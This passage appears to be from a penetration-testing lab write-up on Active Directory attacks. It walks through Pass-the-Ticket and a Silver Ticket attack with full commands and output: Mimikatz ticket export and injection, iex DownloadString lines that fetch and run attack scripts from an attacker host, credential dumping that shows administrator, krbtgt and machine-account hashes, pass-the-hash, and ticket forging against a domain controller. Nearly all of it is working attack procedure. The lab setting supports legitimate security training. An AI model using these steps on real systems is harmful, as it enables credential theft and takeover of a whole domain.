           * Saved to file [0;2f12b]-0-0-40a50000-maintainer@LDAP-prod.research.SECURITY.local.kirbi !

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 6/5/2024 7:18:15 AM ; 6/5/2024 5:18:15 PM ; 6/12/2024 7:18:15 AM
           Service Name (02) : krbtgt ; RESEARCH.SECURITY.LOCAL ; @ RESEARCH.SECURITY.LOCAL
           Target Name  (02) : krbtgt ; research ; @ RESEARCH.SECURITY.LOCAL
           Client Name  (01) : maintainer ; @ RESEARCH.SECURITY.LOCAL ( research )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             0c26ba103708c5f908f86709239a61e2e89dc407e3e801e74c4c0fdbab4b5fc1
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;2f12b]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi !
```

The Kerberos tickets are meticulously harvested and stored locally. This seamless extraction provides us with a treasure trove of tickets - key instruments for accessing diverse resources within the network.
After the extraction, it becomes crucial to accurately identify the procured tickets.

`ls`:
```
    Directory: C:\Users\student\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/5/2024   7:51 AM           1849 [0;2f12b]-0-0-40a50000-maintainer@LDAP-prod.research.SECURITY.local.ki
                                                 rbi
-a----         6/5/2024   7:51 AM           1607 [0;2f12b]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi ←
-a----         6/5/2024   7:51 AM           1799 [0;2f15d]-0-0-40a50000-maintainer@ldap-prod.research.security.local.ki
                                                 rbi
-a----         6/5/2024   7:51 AM           1849 [0;2f15d]-0-1-40a50000-maintainer@LDAP-prod.research.SECURITY.local.ki
                                                 rbi
-a----         6/5/2024   7:51 AM           1607 [0;2f15d]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi
-a----         6/5/2024   7:51 AM           1569 [0;3911b7]-2-0-60a10000-student@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi
-a----         6/5/2024   7:51 AM           1569 [0;3914de]-2-0-60a10000-student@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi
-a----         6/5/2024   7:51 AM           1569 [0;39154b]-2-0-60a10000-student@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi
```

`ls | Where-Object { $_.Name -like "*maintainer@krbtgt*" }`:
```
    Directory: C:\Users\student\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/5/2024   8:27 AM           1607 [0;28fb5]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi ←
-a----         6/5/2024   8:27 AM           1607 [0;2900b]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi
```

*Perform a Pass-The-Ticket attack*

`Invoke-Mimikatz -Command '"kerberos::ptt [0;28fb5]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi"'`:
```
Hostname: seclogs.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # kerberos::ptt [0;28fb5]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi

* File: '[0;28fb5]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi': OK ←
```

Upon successful execution of this command, the extracted ticket is introduced into our current session, enabling us to impersonate the user the ticket belongs to. This is a significant step towards gaining unauthorized access and escalating privileges within the network.

*Reviewing the Kerberos tickets*

`klist`:
```
Current LogonId is 0:0xdd0b1

Cached Tickets: (1)

#0>     Client: maintainer @ RESEARCH.SECURITY.LOCAL ←
        Server: krbtgt/RESEARCH.SECURITY.LOCAL @ RESEARCH.SECURITY.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 6/5/2023 9:30:16 (local)
        End Time:   6/5/2023 19:30:16 (local)
        Renew Time: 6/12/2023 9:30:16 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

By running `klist`, we can analyze the obtained tickets, and identify their attributes such as the ticket lifetimes, renew till times, flags, encryption types, and associated session details. This valuable information aids in planning the next steps of our operations.

4. **Check Domain Controller Access**

*Verify the access*

Finally, we verify our access to the Domain Controller by attempting to list the contents of the C$ share on the DC.

`ls \\prod.research.SECURITY.local\c$`:
```
    Directory: \\prod.research.security.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        8/22/2013   3:52 PM                PerfLogs
d-r---        10/1/2021   4:25 PM                Program Files
d-----        9/21/2021  12:28 PM                Program Files (x86)
d-r---        9/27/2021   9:00 AM                Users
d-----        9/27/2021   9:19 AM                Windows
```

If the command successfully returns a list of files, it indicates that we have access to Domain Controller.

---

## Active Directory Persistence

### AD Persistence: Silver Ticket - Video/Lab

The **Silver ticket** attack involves the <u>creation of a valid Ticket Granting Service (TGS) for a specific service when the password hash of the service is obtained</u>. This allows unauthorized access to the service by forging a customized TGS.

<u>Silver tickets have a narrower scope compared to Golden tickets, as they only provide access to a specific resource (e.g., MSSQL) and the system hosting that resource</u>. However, <u>adversaries capable of forging Silver tickets can create and use TGS tickets without interacting with the Key Distribution Center (KDC), potentially making detection more challenging</u>.

- **Services operating under a user account (e.g., MSSQL)** <u>require the service account's password hash for Silver Ticket creation</u>.
- **Services hosted by computers (e.g., Windows file share using "CIFS")** <u>require the computer account's password hash</u>.

#### Lab Environment

In this lab environment, you will be provided with GUI access to a Windows machine (2012). This machine will serve as your attacker machine. Your task in this lab is to generate a Silver ticket, targeting the CIFS service on the Domain Controller.

**Objective:** Perform a Silver ticket attack targeting the CIFS service on the Domain Controller.

**Note:** All the tools are present in the `C:\Tools` directory.

The best tools for this lab are:
- PowerView.ps1
- Invoke-TokenManipulation.ps1
- Invoke-Mimikatz.ps1.

#### Lab Solution

*Terminal #1*.

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\PowerView.ps1`: to import the [PowerView module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

`hostname`: to display the name of the current host.
(Displaying the name of the current machine to confirm the host you are working on.)
`Find-LocalAdminAccess`: to find machines where the current user has local administrator access.
(Identifying machines where the current user has local admin rights, which are potential targets for further exploitation.)
`Get-DomainSID`: to get the SID (Security Identifier) of the current domain.
(Retrieving the SID of the domain, which is required for certain attacks such as creating Silver or Golden Tickets.)

*Terminal #2*.

`cd C:\Tools`, `dir`, `python -m http.server 80`: to start a simple HTTP server to serve the `Invoke-TokenManipulation.ps1` and `Invoke-Mimikatz.ps1` scripts.
(Setting up a simple HTTP server to host and serve necessary scripts for remote execution.)

*Terminal #1*.

`Enter-PSSession seclogs.research.SECURITY.local`: to start a remote PowerShell session with the machine 'seclogs.research.SECURITY.local'.
(Starting a remote session with the target machine 'seclogs.research.SECURITY.local' for further commands.)

`whoami`: to display the current username.
(Confirming the identity of the current user in the remote session.)
`whoami /priv`: to display the current user's privileges.
(Checking the privileges of the current user to see what level of access they have.)

`iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-TokenManipulation.ps1')`: to download and execute the 'Invoke-TokenManipulation.ps1' script from the specified URL.
`Invoke-TokenManipulation -Enumerate`: to enumerate tokens on the local system.
(Enumerating available tokens on the system to find tokens that can be used to elevate privileges.)

`iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')`: to download and execute the 'Invoke-Mimikatz.ps1' script from the specified URL.
`Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'`: to enable debug privileges, elevate the token, and retrieve logon passwords, including the domain administrator NTLM hash.
(Enabling debug privileges, elevating the token, and extracting logon passwords to obtain the NTLM hash of the domain administrator.)

`ls \\prod.research.SECURITY.local\c$`: to list the contents of the C$ share on the 'prod.research.SECURITY.local' machine (but access is denied).
(Attempting to access the administrative share on a target machine to check for existing access permissions, but access is denied.)

*Terminal #3* (run as administrator).

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\Invoke-Mimikatz.ps1`: to import the  [Invoke-Mimikatz module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.SECURITY.local /ntlm:84398159ce4d01cfe10cf34d5dae3909 /run:powershell.exe"'`: to pass the hash (PTH) and run PowerShell with the specified NTLM hash for the 'administrator' user in the 'research.SECURITY.local' domain.
(Using the extracted NTLM hash to authenticate as the administrator and run a new PowerShell session.)

*Terminal #4* (elevated session).

`ls \\prod.research.security.local\c$`: to list the contents of the C$ share on the 'prod.research.SECURITY.local' machine.
(Attempting to list the contents of the administrative share to verify access with the current session.)

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\Invoke-Mimikatz.ps1`: to import the  [Invoke-Mimikatz module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).

`Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -ComputerName prod.research.security.local`: to dump the LSA secrets and inject them into the current session on the specified computer.
(Extracting and injecting LSA secrets from the target machine to gain further access and control.)

`Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:research.SECURITY.local /sid:S-1-5-21-1693200156-3137632808-18580025440 /target:prod.research.SECURITY.local /service:CIFS /rc4:f2c8ca3e39546c1a3893dad14a6d2849 /ptt"'`: to create and inject a Silver Ticket for the specified domain and target machine.
(Creating and injecting a Silver Ticket to grant specified permissions for the CIFS service on the target domain controller.)
`klist`: to list the Kerberos tickets for the current user session.
(Verifying that the Silver Ticket has been successfully injected by listing the Kerberos tickets.)

`ls \\prod.research.SECURITY.local\c$`: to list the contents of the C$ share on the 'prod.research.SECURITY.local' machine.
(Accessing the C$ share again to confirm that the Silver Ticket has granted the necessary privileges.)

#### Lab Execution

*Terminal #1*.

`powershell -ep bypass`

`cd C:\Tools`, `Import-Module .\PowerView.ps1`

*Gather information about the current domain*

`whoami`:
```
research\student ←
```

`hostname`:
```
client ←
```

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : research.security.local
   Link-local IPv6 Address . . . . . : fe80::b183:f79:e0b9:fe61
   IPv4 Address. . . . . . . . . . . : 10.0.5.101 ←
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.5.1

Tunnel adapter isatap.research.security.local:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : research.security.local
```

`Get-Domain`:
```
Forest                  : SECURITY.local
DomainControllers       : {prod.research.SECURITY.local} ←
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : SECURITY.local
PdcRoleOwner            : prod.research.SECURITY.local
RidRoleOwner            : prod.research.SECURITY.local
InfrastructureRoleOwner : prod.research.SECURITY.local
Name                    : research.SECURITY.local ←
```

The name of the current domain is "research.SECURITY.local" and the Fully Qualified Domain Name (FQDN) of the Domain Controller (DC) is "prod.research.SECURITY.local".

`Get-DomainSID`:
```
S-1-5-21-1693200156-3137632808-1858025440
```

`ls \\prod.research.security.local\c$`:
```
ls : Access is denied ←
    + CategoryInfo          : PermissionDenied: (\\prod.research.security.local\c$:String) [Get-ChildItem], Unauthoriz
   edAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

ls : Cannot find path '\\prod.research.security.local/c$' because it does not exist.
    + CategoryInfo          : ObjectNotFound: (\\prod.research.security.local/c$:String) [Get-ChildItem], ItemNotFound
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
```

*Find a machine in the current domain, on which the current user has local admin access.*

`Find-LocalAdminAccess`:
```
seclogs.research.SECURITY.local ←
```

We can notice that "student" has admin access on the "seclogs.research.SECURITY.local" machine.

*Access the found machine*

`Enter-PSSession seclogs.research.SECURITY.local`

`whoami`:
```
research\student ←
```

`hostname`:
```
seclogs ←
```

*Check the current user privilege*

`whoami /priv`:
```
PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= =======
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Enabled
SeSecurityPrivilege             Manage auditing and security log          Enabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Enabled
SeLoadDriverPrivilege           Load and unload device drivers            Enabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Enabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeBackupPrivilege               Back up files and directories             Enabled
SeRestorePrivilege              Restore files and directories             Enabled
SeShutdownPrivilege             Shut down the system                      Enabled
SeDebugPrivilege ←              Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Enabled
SeUndockPrivilege               Remove computer from docking station      Enabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

We have full privileges on the "seclogs.research.SECURITY.local" machine.

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : research.security.local
   Link-local IPv6 Address . . . . . : fe80::55e1:f21f:1bd9:23e
   IPv4 Address. . . . . . . . . . . : 10.0.0.170
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.0.1

Tunnel adapter isatap.research.security.local:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : research.security.local
```

*Terminal #2*.

*Setup an HTTP file server on the attacker machine to serve the PowerShell scripts*

`cd C:\Tools`, `ls`:
```
Directory: C:\Tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/22/2021  12:12 PM        2501632 hfs.exe
-a----        9/22/2021  12:12 PM        3190829 Invoke-Mimikatz.ps1 ←
-a----        9/22/2021  12:12 PM          94961 Invoke-TokenManipulation.ps1 ←
-a----        9/22/2021  12:12 PM        1253993 mimikatz.zip
-a----        9/22/2021  12:12 PM         111892 Netcat.zip
-a----        9/22/2021  12:12 PM         769757 PowerView.ps1
-a----        9/22/2021  12:12 PM         790661 PowerView_dev.ps1
```

`python -m https.server 80`:
```
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

*Terminal #1*.

*Enumerate all the available tokens*

`iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-TokenManipulation.ps1')`

`Invoke-TokenManipulation -Enumerate`:
```
Domain              : RESEARCH ←
Username            : administrator ←
hToken              : 5104
LogonType           : 2
IsElevated          : True
TokenType           : Primary
SessionID           : 1 ←
PrivilegesEnabled   : {SeChangeNotifyPrivilege, SeImpersonatePrivilege, SeCreateGlobalPrivilege}
PrivilegesAvailable : {SeIncreaseQuotaPrivilege, SeSecurityPrivilege, SeTakeOwnershipPrivilege,
                      SeLoadDriverPrivilege...}
ProcessId           : 2888

Domain              : NT AUTHORITY
Username            : SYSTEM
hToken              : 2156
LogonType           : 0
IsElevated          : True
TokenType           : Primary
SessionID           : 0
PrivilegesEnabled   : {SeCreateTokenPrivilege, SeLockMemoryPrivilege, SeTcbPrivilege, SeSystemProfilePrivilege...}
PrivilegesAvailable : {SeAssignPrimaryTokenPrivilege, SeIncreaseQuotaPrivilege, SeSecurityPrivilege,
                      SeTakeOwnershipPrivilege...}
ProcessId           : 472

Domain              : NT AUTHORITY
Username            : NETWORK SERVICE
hToken              : 6408
LogonType           : 5
IsElevated          : True
TokenType           : Primary
SessionID           : 0
PrivilegesEnabled   : {SeChangeNotifyPrivilege, SeImpersonatePrivilege, SeCreateGlobalPrivilege}
PrivilegesAvailable : {SeAssignPrimaryTokenPrivilege, SeIncreaseQuotaPrivilege, SeAuditPrivilege,
                      SeIncreaseWorkingSetPrivilege}
ProcessId           : 1676
```

We can notice that "research\administrator" has logged into this machine.

*Dump NTLM hash of the logged in users*

`iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')`

`Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'`:
```
Hostname: seclogs.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # privilege::debug
Privilege '20' OK

mimikatz(powershell) # token::elevate ←
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM ←

372     {0;000003e7} 0 D 16786          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,20p)       Primary
 -> Impersonated ! ←
 * Process Token : {0;000d3749} 0 D 887198      RESEARCH\student        S-1-5-21-1693200156-3137632808-1858025440-1115
(09g,23p)       Primary
 * Thread Token  : {0;000003e7} 0 D 3533622     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,20p)   Impersonation (Delegation)

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 167627 (00000000:00028ecb)
Session           : Interactive from 1
User Name         : administrator ←
Domain            : RESEARCH ←
Logon Server      : PROD ←
Logon Time        : 6/4/2024 3:10:04 PM
SID               : S-1-5-21-1693200156-3137632808-1858025440-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : RESEARCH
         * NTLM     : 84398159ce4d01cfe10cf34d5dae3909 ←
         * SHA1     : ccc47c4f9541f99b020d38b8f7ea10f7b4b8595c
         [00010000] CredentialKeys
         * NTLM     : 84398159ce4d01cfe10cf34d5dae3909
         * SHA1     : ccc47c4f9541f99b020d38b8f7ea10f7b4b8595c
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : RESEARCH
         * Password : (null)
        kerberos :
         * Username : administrator
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : SECLOGS$
Domain            : RESEARCH
Logon Server      : (null)
Logon Time        : 6/4/2024 3:09:48 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : SECLOGS$
         * Domain   : RESEARCH
         * NTLM     : 8fcd06b94b47c87e9269003497d54aaa
         * SHA1     : 76defae790f3b3f252eef22fb064d7890e7d468f
        tspkg :
        wdigest :
         * Username : SECLOGS$
         * Domain   : RESEARCH
         * Password : (null)
        kerberos :
         * Username : seclogs$
         * Domain   : RESEARCH.SECURITY.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/4/2024 3:09:49 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :
```

We found the NTLM hash of the domain administrator, which we can utilize to perform a PTH (Pass The Hash) attack.

We need to find the computer account password hash for "prod.research.SECURITY.local" (DC) in order to generate the Silver ticket. So, first we will perform a PTH (Pass The Hash) attack using Mimikatz to gain domain administrator privileges in the `powershell.exe` shell.

To perform PTH we need high privilege access on the machine, so run PowerShell as administrator to execute the following commands.

*Terminal #3* (run as administrator).

*Perform a Pass-The-Hash attack*

`powershell -ep bypass`

`cd C:\Tools`, `Import-Module .\Invoke-Mimikatz.ps1`

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.SECURITY.local /ntlm:84398159ce4d01cfe10cf34d5dae3909 /run:powershell.exe"'`:
```
Hostname: client.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:84398159ce4d01cfe10cf34d5
dae3909 /run:powershell.exe
user    : administrator ←
domain  : research.security.local ←
program : powershell.exe ←
impers. : no
NTLM    : 84398159ce4d01cfe10cf34d5dae3909 ←
  |  PID  3700
  |  TID  1080
  |  LSA Process is now R/W
  |  LUID 0 ; 3229611 (00000000:003147ab)
  \_ msv1_0   - data copy @ 00000005915D6D50 : OK !
  \_ kerberos - data copy @ 00000005915D3B68
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000000590D590F8 (16) -> null
```

We have successfully performed PTH using domain admin NTLM hash.

*Terminal #4* (elevated session).

*Find the computer account password hash for the target machine*

`Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -ComputerName prod.research.security.local`:
```
Hostname: client.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # lsadump::lsa /inject
Domain : RESEARCH / S-1-5-21-1693200156-3137632808-1858025440

RID  : 000001f4 (500)
User : Administrator

 * Primary
    NTLM : 84398159ce4d01cfe10cf34d5dae3909
    LM   :
  Hash NTLM: 84398159ce4d01cfe10cf34d5dae3909

RID  : 000001f5 (501)
User : Guest

 * Primary
    NTLM :
    LM   :

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 0e3cab3ba66afddb664025d96a8dc4d2
    LM   :
  Hash NTLM: 0e3cab3ba66afddb664025d96a8dc4d2
    ntlm- 0: 0e3cab3ba66afddb664025d96a8dc4d2
    lm  - 0: 7f2c59ba734cd32b914b5abc34f33989

 * WDigest
    01  87ec49dc4b54d36a325562cbe593ba4b
    02  43be691003a92a3ea2fab4977438d10d
    03  7d059de325c56e5469624e7842f0fb2d
    04  87ec49dc4b54d36a325562cbe593ba4b
    05  43be691003a92a3ea2fab4977438d10d
    06  226774111b2233ebcd460064776de3a4
    07  87ec49dc4b54d36a325562cbe593ba4b
    08  3ee9419b27a2dc2e637b6e6ada2ebf75
    09  956d1953b0f62e3ee9b26730d1fbbb6b
    10  45c5782b367407cb9657cd1003c0274b
    11  e3533a08aa4598e251477ba137af368d
    12  956d1953b0f62e3ee9b26730d1fbbb6b
    13  3f0e4a7f86cbf38d28105aae147b9534
    14  e3533a08aa4598e251477ba137af368d
    15  443c8f320943243cda72c9688dac4a00
    16  09e7bc9c84cd5ff7cd30b79652c88611
    17  cbbfa854a6fb2e7728ea9339751d8dae
    18  f5199511d543fa59c40741868914710a
    19  837c1e2b356de9cc8a8081b7cd4ee246
    20  42532a6eaac6a893762c2346919dcda6
    21  25435e0d382848d0ff03588ee606839e
    22  25435e0d382848d0ff03588ee606839e
    23  0eb1fe7a62318a342bc0e8f6f65a7f28
    24  934d1faa694cdeced0108338ba8a47e5
    25  e795528c2b8f5c91ae57bb94c60438d5
    26  0b2571df51f085396f85fef7c3be28c0
    27  f76f5fd6e3ec3a2778211d28cb29dfc8
    28  9449c1e8b684f0fed6d9da2cfcc6c1dd
    29  7a6d84052ba701098b7dd7a7babf4601

 * Kerberos
    Default Salt : RESEARCH.SECURITY.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 45b302b0918997ec

 * Kerberos-Newer-Keys
    Default Salt : RESEARCH.SECURITY.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 64d6ca8274323618d213555c0950d286a56159e649dd3c5c045c2db4bfe71602
      aes128_hmac       (4096) : 689d34adbb28cba1f6b43cc83f6a6cef
      des_cbc_md5       (4096) : 45b302b0918997ec

RID  : 0000045c (1116)
User : maintainer

 * Primary
    NTLM : cc3c6e624cd70893a3a98e7c4dee136c
    LM   :
  Hash NTLM: cc3c6e624cd70893a3a98e7c4dee136c
    ntlm- 0: cc3c6e624cd70893a3a98e7c4dee136c
    lm  - 0: c92f5c2f9e28d0d2f7d01d9bba88ccac

 * WDigest
    01  b4364c0ab409d4fb592cac0ea8256de6
    02  6beadd17853808cc8aaec822bc5045b6
    03  2a3363cb37f0ce94416fd2800794549a
    04  b4364c0ab409d4fb592cac0ea8256de6
    05  6beadd17853808cc8aaec822bc5045b6
    06  455528d5769295dc8df1055c7313e10e
    07  b4364c0ab409d4fb592cac0ea8256de6
    08  463bec298408b95f15c76b7f9c6f3e2c
    09  e39f6da8010e41ede358134343de7385
    10  df34f136ed9461ea9fc8ce660b455b27
    11  1d799a9e7f57f373e1a0d40c5c6322bd
    12  e39f6da8010e41ede358134343de7385
    13  239c7134f0aa261ca9110277a9394594
    14  1d799a9e7f57f373e1a0d40c5c6322bd
    15  3209a96f8d69b3ce83379227a9252959
    16  10d300d032cc2ba5b06c3aa78dd6f10d
    17  be6c59bf30efa3004cf531288ec494ee
    18  1c721f0f5ee5fd3faf47c33d31cb9efb
    19  7092ad6c84c3dfcdfc718e88a481eab9
    20  6081abbd4478b4431bbddba655cebce6
    21  afa0f5ae83e4833892cb28ee57050e01
    22  afa0f5ae83e4833892cb28ee57050e01
    23  22a78e055045ee32aaebed511902c77f
    24  b6a690b491f195cca5c2b30e6a69d375
    25  1ab0b22a7f919208f160fbd9a873706a
    26  62149d1c6fca07d14c0c70586542f465
    27  1ec6296302df154d9c744c499bcf7dc9
    28  9fbb10b850c6f6c89ebbd15b861ea560
    29  966bf2660818a9a3a64d245287591c8f

 * Kerberos
    Default Salt : RESEARCH.SECURITY.LOCALmaintainer
    Credentials
      des_cbc_md5       : da262a97bc0e5276

 * Kerberos-Newer-Keys
    Default Salt : RESEARCH.SECURITY.LOCALmaintainer
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 96bd8847fb702d9188f11a9438bf3b0aec44b10cb63dbfe67471eefca27db8fb
      aes128_hmac       (4096) : d943abf86b1ae7ba20e8e3ece1fd868d
      des_cbc_md5       (4096) : da262a97bc0e5276

RID  : 000003f1 (1009)
User : PROD$ ←

 * Primary
    NTLM : 33ba952dd24648e1f12024e53111b2c2 ←
    LM   :
  Hash NTLM: 33ba952dd24648e1f12024e53111b2c2
    ntlm- 0: 33ba952dd24648e1f12024e53111b2c2
    ntlm- 1: 9c84a177cba6748234e655f91380f7c1
    ntlm- 2: 3f25b795db1bf05a47f16affcabc5750
    lm  - 0: 1dc04f5b6eaa5631de31a3468fdd8ea0
    lm  - 1: ead46b91a569380c161089800c6a72b9
    lm  - 2: 3ef57897d9ee589fc03e49a367272a9c

 * WDigest
    01  13850a2f229edf8aba29b3c94e3d35f1
    02  2a0f6ecdd9d9acb00ef8bf6057be5911
    03  13850a2f229edf8aba29b3c94e3d35f1
    04  13850a2f229edf8aba29b3c94e3d35f1
    05  45873e60abf1bb8a14015dc6c192b03a
    06  45873e60abf1bb8a14015dc6c192b03a
    07  0c0041bd16f317a1d4c903f6d6fc4912
    08  a07a868491eb607e6758d292f671cc0c
    09  e76dec77f353e05e77aea4cd45e5925b
    10  dc3d7eecc759556154b10785ab3192d7
    11  dc3d7eecc759556154b10785ab3192d7
    12  506145806d5d66d048e58717885f8e11
    13  506145806d5d66d048e58717885f8e11
    14  596a401a1154b591c150409ff0c29aa7
    15  55afeb30d72e8973cbc1e1bcd0101bde
    16  f3c982b35818f3028688ac9c178e5ded
    17  d518b7e7c8cc9904dbd5f096f3426912
    18  02b94effa543b50ed35554aba4513217
    19  d29cb7e339e70ca4bc772a8745532a27
